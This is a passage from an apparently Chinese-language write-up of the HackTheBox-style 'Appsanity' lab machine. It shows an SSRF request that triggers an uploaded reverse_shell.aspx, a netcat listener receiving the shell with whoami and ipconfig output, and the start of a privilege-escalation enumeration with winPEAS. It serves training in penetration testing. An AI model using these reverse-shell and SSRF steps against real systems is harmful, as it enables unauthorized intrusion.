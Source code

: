    ![image-20231030104531393](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311161144079.png)

   然后在利用ssrf访问http://127.0.0.1:8080/ViewReport.aspx?file=08d36287-6d76-40bf-b835-007ff1fbbaba_reverse_shell.aspx，成功getshell

   ```
   └─# nc -nvlp 4444
   listening on [any] 4444 ...
   connect to [10.10.16.13] from (UNKNOWN) [10.10.11.238] 54868
   Spawn Shell...
   Microsoft Windows [Version 10.0.19045.3570]
   (c) Microsoft Corporation. All rights reserved.
   
   c:\windows\system32\inetsrv>whoami
   whoami
   appsanity\svc_exampanel
   
   c:\windows\system32\inetsrv>hostname
   hostname
   Appsanity
   
   c:\windows\system32\inetsrv>ipconfig
   ipconfig
   
   Windows IP Configuration
   
   
   Ethernet adapter Ethernet0 3:
   
      Connection-specific DNS Suffix  . : 
      IPv4 Address. . . . . . . . . . . : 10.10.11.238
      Subnet Mask . . . . . . . . . . . : 255.255.254.0
      Default Gateway . . . . . . . . . : 10.10.10.2
   
   c:\windows\system32\inetsrv>
   ```



# 0x3、本地特权提升

## 3.1 枚举

1. 首先利用winPEASany.exe来枚举收集一下基本信息

   ①目标机器上的用户

   ```
   Ever logged users
       IIS APPPOOL\MedDigi
       IIS APPPOOL\DefaultAppPool
       IIS APPPOOL\ExamPanel
       IIS APPPOOL\MedDigiPortal
       APPSANITY\Administrator
       APPSANITY\svc_meddigiportal
       APPSANITY\svc_exampanel
       APPSANITY\svc_meddigi
       APPSANITY\devdoc
   ```
